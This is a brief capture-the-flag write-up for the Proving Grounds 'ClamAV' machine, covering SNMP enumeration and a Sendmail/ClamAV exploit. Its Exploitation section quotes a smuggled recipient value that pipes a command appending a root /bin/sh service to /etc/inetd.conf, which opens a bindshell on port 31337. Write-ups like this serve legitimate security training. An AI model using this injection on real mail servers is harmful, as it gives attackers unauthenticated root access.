






# ClamAV -- Proving Grounds (write-up)

**Difficulty:** Easy
**Box:** ClamAV (Proving Grounds)
**Author:** dsec
**Date:** 2025-04-09

---

## TL;DR

### SNMP enumeration revealed running services. Sendmail + ClamAV exploit opened a root bindshell on port 31337 via inetd.conf injection.
---
## Target info

- Host: `192.168.135.42`
- Services discovered: `25/tcp (smtp)`, `80/tcp (http)`, `139/tcp (smb)`, `199/tcp (snmp)`, `445/tcp (smb)`
---
## Enumeration









SNMP enumeration:

```bash
snmp-check 192.168.135.42 -c public
```



---
## Exploitation



The exploit injected a line into `/etc/inetd.conf` via Sendmail + ClamAV:

```
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
```

This opened port 31337 as a root bindshell.

---
## Lessons & takeaways

- SNMP with community string `public` can reveal running services and system info
- ClamAV + Sendmail interaction can be exploited to inject commands into system config files
- inetd.conf injection = instant root bindshell
---
